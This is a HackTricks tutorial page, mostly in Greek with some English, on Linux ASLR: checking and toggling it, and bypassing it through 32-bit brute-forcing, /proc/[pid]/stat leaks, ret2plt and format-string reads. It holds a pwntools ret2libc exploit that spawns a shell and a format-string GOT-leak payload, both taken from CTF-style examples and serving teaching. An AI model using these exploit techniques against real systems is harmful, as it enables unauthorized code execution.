 # ASLR

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

**Η Τυχαία Διάταξη Χώρου Διευθύνσεων (ASLR)** είναι μια τεχνική ασφαλείας που χρησιμοποιείται σε λειτουργικά συστήματα για να **τυχαίνει τις διευθύνσεις μνήμης** που χρησιμοποιούνται από διαδικασίες συστήματος και εφαρμογών. Με αυτόν τον τρόπο, καθιστά σημαντικά πιο δύσκολο για έναν επιτιθέμενο να προβλέψει την τοποθεσία συγκεκριμένων διαδικασιών και δεδομένων, όπως η στοίβα, η σωρός και οι βιβλιοθήκες, μειώνοντας έτσι ορισμένους τύπους εκμεταλλεύσεων, ιδιαίτερα τις υπερχειλίσεις μνήμης.

### **Checking ASLR Status**

Για να **ελέγξετε** την κατάσταση ASLR σε ένα σύστημα Linux, μπορείτε να διαβάσετε την τιμή από το αρχείο `/proc/sys/kernel/randomize_va_space`. Η τιμή που αποθηκεύεται σε αυτό το αρχείο καθορίζει τον τύπο ASLR που εφαρμόζεται:

* **0**: Καμία τυχαία διάταξη. Όλα είναι στατικά.
* **1**: Συντηρητική τυχαία διάταξη. Οι κοινές βιβλιοθήκες, η στοίβα, το mmap(), η σελίδα VDSO είναι τυχαίες.
* **2**: Πλήρης τυχαία διάταξη. Εκτός από τα στοιχεία που τυχαίνουν από τη συντηρητική τυχαία διάταξη, η μνήμη που διαχειρίζεται μέσω του `brk()` είναι τυχαία.

Μπορείτε να ελέγξετε την κατάσταση ASLR με την παρακάτω εντολή:
```bash
cat /proc/sys/kernel/randomize_va_space
```
### **Απενεργοποίηση ASLR**

Για να **απενεργοποιήσετε** το ASLR, ορίστε την τιμή του `/proc/sys/kernel/randomize_va_space` σε **0**. Η απενεργοποίηση του ASLR γενικά δεν συνιστάται εκτός από σενάρια δοκιμών ή αποσφαλμάτωσης. Ακολουθούν τα βήματα για να το απενεργοποιήσετε:
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
Μπορείτε επίσης να απενεργοποιήσετε το ASLR για μια εκτέλεση με:
```bash
setarch `arch` -R ./bin args
setarch `uname -m` -R ./bin args
```
### **Ενεργοποίηση ASLR**

Για να **ενεργοποιήσετε** το ASLR, μπορείτε να γράψετε μια τιμή **2** στο αρχείο `/proc/sys/kernel/randomize_va_space`. Αυτό συνήθως απαιτεί δικαιώματα root. Η πλήρης τυχαία κατανομή μπορεί να γίνει με την ακόλουθη εντολή:
```bash
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```
### **Επιμονή Κατά τη Διάρκεια Επανεκκινήσεων**

Οι αλλαγές που γίνονται με τις εντολές `echo` είναι προσωρινές και θα επαναρυθμιστούν κατά την επανεκκίνηση. Για να κάνετε την αλλαγή μόνιμη, πρέπει να επεξεργαστείτε το αρχείο `/etc/sysctl.conf` και να προσθέσετε ή να τροποποιήσετε την παρακάτω γραμμή:
```tsconfig
kernel.randomize_va_space=2 # Enable ASLR
# or
kernel.randomize_va_space=0 # Disable ASLR
```
Μετά την επεξεργασία του `/etc/sysctl.conf`, εφαρμόστε τις αλλαγές με:
```bash
sudo sysctl -p
```
This will ensure that your ASLR settings remain across reboots.

## **Bypasses**

### 32bit brute-forcing

PaX divides the process address space into **3 groups**:

* **Κώδικας και δεδομένα** (αρχικοποιημένα και μη αρχικοποιημένα): `.text`, `.data`, και `.bss` —> **16 bits** of entropy in the `delta_exec` variable. This variable is randomly initialized with each process and added to the initial addresses.
* **Μνήμη** allocated by `mmap()` and **shared libraries** —> **16 bits**, named `delta_mmap`.
* **Η στοίβα** —> **24 bits**, referred to as `delta_stack`. However, it effectively uses **11 bits** (from the 10th to the 20th byte inclusive), aligned to **16 bytes** —> This results in **524,288 possible real stack addresses**.

The previous data is for 32-bit systems and the reduced final entropy makes possible to bypass ASLR by retrying the execution once and again until the exploit completes successfully.

#### Brute-force ideas:

* If you have a big enough overflow to host a **big NOP sled before the shellcode**, you could just brute-force addresses in the stack until the flow **jumps over some part of the NOP sled**.
* Another option for this in case the overflow is not that big and the exploit can be run locally is possible to **add the NOP sled and shellcode in an environment variable**.
* If the exploit is local, you can try to brute-force the base address of libc (useful for 32bit systems):
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
* Αν επιτίθεστε σε έναν απομακρυσμένο διακομιστή, μπορείτε να προσπαθήσετε να **σπάσετε τη διεύθυνση της συνάρτησης `usleep` της `libc`**, περνώντας ως επιχείρημα 10 (για παράδειγμα). Αν σε κάποιο σημείο ο **διακομιστής καθυστερήσει 10 δευτερόλεπτα να απαντήσει**, βρήκατε τη διεύθυνση αυτής της συνάρτησης.

{% hint style="success" %}
Σε συστήματα 64bit η εντροπία είναι πολύ υψηλότερη και αυτό δεν είναι δυνατό.
{% endhint %}

### Τοπικές Πληροφορίες (`/proc/[pid]/stat`)

Το αρχείο **`/proc/[pid]/stat`** μιας διαδικασίας είναι πάντα αναγνώσιμο από όλους και **περιέχει ενδιαφέρουσες** πληροφορίες όπως:

* **startcode** & **endcode**: Διευθύνσεις πάνω και κάτω με το **TEXT** του δυαδικού
* **startstack**: Η διεύθυνση της αρχής της **στοίβας**
* **start\_data** & **end\_data**: Διευθύνσεις πάνω και κάτω όπου είναι το **BSS**
* **kstkesp** & **kstkeip**: Τρέχουσες διευθύνσεις **ESP** και **EIP**
* **arg\_start** & **arg\_end**: Διευθύνσεις πάνω και κάτω όπου είναι οι **cli arguments**.
* **env\_start** &**env\_end**: Διευθύνσεις πάνω και κάτω όπου είναι οι **env variables**.

Επομένως, αν ο επιτιθέμενος βρίσκεται στον ίδιο υπολογιστή με το δυαδικό που εκμεταλλεύεται και αυτό το δυαδικό δεν περιμένει την υπερχείλιση από τις ακατέργαστες παραμέτρους, αλλά από μια διαφορετική **είσοδο που μπορεί να κατασκευαστεί μετά την ανάγνωση αυτού του αρχείου**. Είναι δυνατό για έναν επιτιθέμενο να **πάρε κάποια διευθύνσεις από αυτό το αρχείο και να κατασκευάσει offsets από αυτές για την εκμετάλλευση**.

{% hint style="success" %}
Για περισσότερες πληροφορίες σχετικά με αυτό το αρχείο, ελέγξτε [https://man7.org/linux/man-pages/man5/proc.5.html](https://man7.org/linux/man-pages/man5/proc.5.html) αναζητώντας το `/proc/pid/stat`
{% endhint %}

### Έχοντας μια διαρροή

* **Η πρόκληση είναι να δώσετε μια διαρροή**

Αν σας δοθεί μια διαρροή (εύκολες προκλήσεις CTF), μπορείτε να υπολογίσετε offsets από αυτήν (υποθέτοντας για παράδειγμα ότι γνωρίζετε την ακριβή έκδοση της libc που χρησιμοποιείται στο σύστημα που εκμεταλλεύεστε). Αυτό το παράδειγμα εκμετάλλευσης είναι αποσπασμένο από το [**παράδειγμα από εδώ**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/aslr-bypass-with-given-leak) (ελέγξτε αυτή τη σελίδα για περισσότερες λεπτομέρειες):
```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
'A' * 32,
libc.sym['system'],
0x0,        # return address
next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```
* **ret2plt**

Καταχρώντας μια υπερχείλιση buffer, θα ήταν δυνατό να εκμεταλλευτεί κανείς ένα **ret2plt** για να εξάγει μια διεύθυνση μιας συνάρτησης από τη libc. Έλεγχος:

{% content-ref url="ret2plt.md" %}
[ret2plt.md](ret2plt.md)
{% endcontent-ref %}

* **Format Strings Arbitrary Read**

Ακριβώς όπως στο ret2plt, αν έχετε μια αυθαίρετη ανάγνωση μέσω μιας ευπάθειας format strings, είναι δυνατό να εξάγετε τη διεύθυνση μιας **libc function** από το GOT. Το παρακάτω [**παράδειγμα είναι από εδώ**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt\_and\_got):
```python
payload = p32(elf.got['puts'])  # p64() if 64-bit
payload += b'|'
payload += b'%3$s'              # The third parameter points at the start of the buffer

# this part is only relevant if you need to call the main function again

payload = payload.ljust(40, b'A')   # 40 is the offset until you're overwriting the instruction pointer
payload += p32(elf.symbols['main'])
```
Μπορείτε να βρείτε περισσότερες πληροφορίες σχετικά με τις Format Strings arbitrary read στο:

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}

### Ret2ret & Ret2pop

Δοκιμάστε να παρακάμψετε το ASLR εκμεταλλευόμενοι διευθύνσεις μέσα στο stack:

{% content-ref url="../../stack-overflow/ret2ret.md" %}
[ret2ret.md](../../stack-overflow/ret2ret.md)
{% endcontent-ref %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

